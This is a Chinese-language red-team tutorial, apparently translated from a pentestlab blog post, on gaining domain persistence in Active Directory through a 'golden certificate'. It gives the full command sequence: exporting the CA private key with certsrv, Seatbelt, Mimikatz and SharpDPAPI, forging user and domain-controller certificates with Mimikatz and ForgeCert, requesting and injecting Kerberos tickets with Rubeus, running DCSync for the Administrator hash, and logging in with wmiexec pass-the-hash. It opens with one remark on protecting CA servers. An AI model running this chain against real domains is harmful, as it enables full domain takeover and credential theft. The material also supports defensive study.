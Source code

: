 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：
1.	证书提取 (CA)
2.	伪造CA证书
3.	获取 Kerberos 票证（DC 的机器账户）
4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。

![](/img/利用黄金证书劫持域控/1.png)

<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。

![](/img/利用黄金证书劫持域控/2.png)

<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。

![](/img/利用黄金证书劫持域控/3.png)

<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates

![](/img/利用黄金证书劫持域控/4.png)

<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export

![](/img/利用黄金证书劫持域控/5.png)

<center>
Mimikatz – 导出证书
</center> 


![](/img/利用黄金证书劫持域控/6.png)

<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。

![](/img/利用黄金证书劫持域控/7.png)


SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine

![](/img/利用黄金证书劫持域控/8.png)

<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。

![](/img/利用黄金证书劫持域控/9.png)

<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

![](/img/利用黄金证书劫持域控/10.png)

<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab

![](/img/利用黄金证书劫持域控/11.png)

<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/12.png)

<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/13.png)

<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123

![](/img/利用黄金证书劫持域控/14.png)

<center>
Rubeus – Kerberos 票证 
</center>  
 

![](/img/利用黄金证书劫持域控/15.png)

<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123

![](/img/利用黄金证书劫持域控/16.png)

<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 


![](/img/利用黄金证书劫持域控/17.png)

<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi

![](/img/利用黄金证书劫持域控/18.png)

<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi

![](/img/利用黄金证书劫持域控/19.png)

<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator

![](/img/利用黄金证书劫持域控/20.png)

<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1

![](/img/利用黄金证书劫持域控/21.png)

<center>
WMI 连接 - 域控制器
</center> 


参考链接：
https://github.com/GhostPack/Seatbelt
https://github.com/GhostPack/SharpDPAPI
https://github.com/GhostPack/ForgeCert
https://pentestlab.blog/2021/11/15/golden-certificate/
